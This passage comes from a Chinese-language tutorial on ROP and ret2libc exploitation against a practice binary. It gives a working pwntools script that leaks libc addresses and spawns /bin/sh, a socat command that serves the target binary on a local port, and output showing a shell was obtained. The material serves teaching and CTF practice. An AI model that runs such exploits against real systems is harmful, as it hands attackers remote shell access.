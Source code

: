 ```
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive() 
```

接着我们使用socat把level2绑定到10003端口:

```
#!bash
socat TCP4-LISTEN:10003,fork EXEC:./level2 
```

最后执行我们的exp：

```
#!bash
$python exp3.py 
[+] Opening connection to 127.0.0.1 on port 10003: Done
plt_write= 0x8048340
got_write= 0x804a00c
vulfun= 0x8048404

###sending payload1 ...###

###receving write() addr...###
write_addr=0xb76f64c0

###calculating system() addr and "/bin/sh" addr...###
system_addr= 0xb7656460
binsh_addr= 0xb7778ff8

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
mzheng 
```

## 0x04 小结

本章简单介绍了ROP攻击的基本原理，由于篇幅原因，我们会在随后的文章中会介绍更多的攻击技巧：如何利用工具寻找gadgets，如何在不知道对方libc.so版本的情况下计算offset；如何绕过 `Stack Protector` 等。欢迎大家到时继续学习。另外本文提到的所有源代码和工具都可以从我的github下载：https://github.com/zhengmin1989/ROP_STEP_BY_STEP

## 0x05 参考文献

1.  The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)
2.  picoCTF 2013: https://github.com/picoCTF/2013-Problems
3.  Smashing The Stack For Fun And Profit: http://phrack.org/issues/49/14.html
4.  程序员的自我修养
5.  ROP轻松谈